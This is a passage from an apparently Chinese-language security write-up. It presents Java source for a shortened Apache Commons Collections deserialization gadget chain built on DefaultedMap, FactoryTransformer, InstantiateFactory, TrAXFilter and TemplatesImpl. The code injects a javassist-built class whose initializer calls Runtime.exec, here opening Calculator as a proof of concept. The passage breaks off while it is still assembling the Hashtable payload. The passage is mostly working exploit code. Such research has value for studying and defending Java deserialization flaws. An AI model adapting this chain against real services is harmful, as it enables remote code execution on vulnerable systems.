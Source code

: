 经过人工排查，这条链子是最短的，当然这里的CloneTransformer也可以是FactoryTransformer

但是`DefaultedMap`在CC3.2.1才有，在CC3.1版本没有依赖，在4.0也有

```
package CC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.FastHashMap;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.map.DefaultedMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;


public class CCD {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classBytes = STU.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates,"_name","DawnT0wn");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",targetByteCodes);

        InstantiateFactory factory = new InstantiateFactory(TrAXFilter.class, new Class[]{Templates.class}, new Object[]{templates});
        FactoryTransformer transformer = new FactoryTransformer(factory);

        HashMap tmp = new HashMap();
        tmp.put("zZ", "d");
        DefaultedMap map  = (DefaultedMap) DefaultedMap.decorate(tmp, transformer);


        FastHashMap fastHashMap1 = new FastHashMap();
        fastHashMap1.put("yy","d");

        Hashtable obj = new Hashtable();
        obj.put("aa", "b");
        obj.put(fastHashMap1, "1");

//        Object[] table = (Object[]) Reflections.getFieldValue(obj, "table");
        Field field = obj.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(obj);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
```